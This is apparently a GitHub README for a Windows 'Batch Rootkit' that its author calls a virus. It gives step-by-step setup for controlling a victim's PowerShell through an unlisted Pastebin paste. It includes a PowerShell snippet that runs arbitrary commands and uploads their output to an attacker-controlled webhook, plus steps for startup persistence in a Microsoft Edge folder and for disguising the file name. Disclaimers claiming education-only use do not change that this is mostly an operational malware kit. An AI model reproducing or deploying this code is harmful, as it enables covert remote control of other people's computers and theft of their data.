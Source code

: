 # Batch Rootkit

> __Warning__ 
> **I hereby declare that I am not liable for any damages caused by the program. If you experience any problems with my code, feel free to reach out to me on Discord.**

> __Warning__ 
> **The distribution of this computer virus onto computers other than one's own is a criminal offense, and such action is strictly prohibited.**

> __Warning__ 
> **ITS EDUCATION PURPOSES ONLY**


## Contact
In case you require any assistance with my project, please do not hesitate to contact me on Discord.
**Code613 on discord**

## About project
Batch rootkit is using pastebin to control computer powershell. Nowadays, the code can be easily removed, and the link to Pastebin and commands can be readily accessible.

## How to use
1. Create account on Create paste on https://pastebin.com/
2. Create paste on https://pastebin.com/
3. Make paste to unlisted
4. Change your webhook url and commend that you want to use
```PowerShell
$webhookUrl = "Your webhook url"
$outputFile = "output.txt"
$command = "Commend you want to use"
Invoke-Expression "$command | Out-File -FilePath $outputFile"
#tasklist | Out-File -FilePath $outputFile
$client = New-Object System.Net.WebClient
$client.UploadFile($webhookUrl, $outputFile)
Remove-Item $outputFile
 ```
5. To use cmd commend use ```cmd /c```  to use powershell commend just use your commend without ```cmd /c```
6. Save your paste
7. Press raw button
8. Copy link
9. Paste this link into batch code
10. Change name of rootkit.bat to anything you want
11. Done
12. Now application will run on startup and will be stored in %localappdata%/Microsoft Edge
13. I made this code difficult to edit so if you need help i can show you how to setup this **VIRUS** for **EDUCATION PURPOSES ONLY** so feel free to contact me on my discord.

